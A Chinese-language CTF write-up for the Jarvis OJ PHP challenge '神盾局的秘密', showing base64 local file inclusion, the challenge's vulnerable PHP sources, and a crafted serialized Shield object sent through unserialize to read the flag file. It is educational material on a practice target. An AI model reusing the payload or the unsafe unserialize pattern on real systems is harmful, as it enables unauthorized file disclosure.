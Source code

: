 # 神盾局的秘密 write-up 及 PHP 反序列化知识点

访问题目链接 http://web.jarvisoj.com:32768/ ，发现就只有一张图片。Ctrl + U 看看源码吧，源码也很简单。。就一行：

```
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

不难认出，后面这串 `c2hpZWxkLmpwZw==` 是 Base64 。你问我怎么认出？~~这不是“显然”吗，~~看后面两个等号 `==` 就是 Base64 的特征之一了。不过有时候 Base64 的结尾没有等号的，具体看 Base64 的实现吧，不多说了。

把这串 Base64 解码一下就得到 `shield.jpg` 。看到这个首先往本地包含文件漏洞想，文件名经过 Base64 编码之后作为参数传进去。

首先就试试包含 `/etc/passwd` ，发现不行，可能是被过滤了吧。那就试试包含自身 `showimg.php` 吧，这个就有结果了。

```php
<?php
    $f = $_GET['img'];
    if (!empty($f)) {
        $f = base64_decode($f);
        if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        && stripos($f,'pctf')===FALSE) {
            readfile($f);
        } else {
            echo "File not found!";
        }
    }
?>
```

showimg.php 里果然是我猜测的那样，将参数 Base64 解码之后作为文件名。除此之外还看到了它过滤了 `..` ，`/` ，`\\` 还有一个很诡异的 `pctf` 。这个诡异的东西可能是获取 flag 的关键之处。

但仅此而已，就没什么思路了。再试试包含 `index.php` 。

```php
<?php
    require_once('shield.php');
    $x = new Shield();
    isset($_GET['class']) && $g = $_GET['class'];
    if (!empty($g)) {
        $x = unserialize($g);
    }
    echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

index.php 中 require 了 `shield.php` 文件，那就再看看这个文件里面是啥。

```php
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }

        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
```

至此，解题的思路在 index.php 里表明了，关键之处应该是那个 `$x = unserialize($g);` 。shield.php 跟我们说了， flag 在 pctf.php ，但 showimg.php 把 pctf 这个字符串给过滤了。而 shield.php 里同样过滤了 `..` ，`/` ，`\\` ，唯独没有过滤 pctf ，目的很明显，就是要我们去调用 shield.php 的 readfile 函数。

shield.php 的 readfile 函数会读取 `$this->file` ，而这个变量是能够通过反序列化来覆盖的。所以就要来构造反序列化的字符串，再通过 index.php 的 class 参数传递过去。

构建序列化字符串：

```php
<?php
    require_once('shield.php');
    $shield = new Shield("pctf.php");
    echo serialize($shield);  // O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}
?>
```

然后再访问 index.php ：`http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}` （`"`被浏览器自动转码了），就得到 flag 了。

总结一下，这个题涉及到了 **Base64 编码**、**本地文件包含漏洞** 和 **PHP 序列化/反序列化这些知识点**。反序列化这块我不熟悉，所以找了几篇文章来看，都放在参考链接里了。

### 参考链接

- [浅谈 php 反序列化漏洞](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)
- [PHP 反序列化由浅入深](https://xz.aliyun.com/t/3674)
- [PHP: serialize - Manual](https://www.php.net/manual/zh/function.serialize.php)
- [PHP: unserialize - Manual](https://www.php.net/manual/zh/function.unserialize.php)

还有序列化后字符的意义（节选自 PHP 文档下的 [User Contributed Notes](https://www.php.net/manual/zh/function.serialize.php#66147) ）：

```php
<?
/*
Anatomy of a serialize()'ed value:

String
s:size:value;

Integer
i:value;

Boolean
b:value; (does not store "true" or "false", does store '1' or '0')

Null
N;

Array
a:size:{key definition;value definition;(repeated per element)}

Object
O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}

String values are always in double quotes
Array keys are always integers or strings
    "null => 'value'" equates to 's:0:"";s:5:"value";',
    "true => 'value'" equates to 'i:1;s:5:"value";',
    "false => 'value'" equates to 'i:0;s:5:"value";'.
*/
?>
```
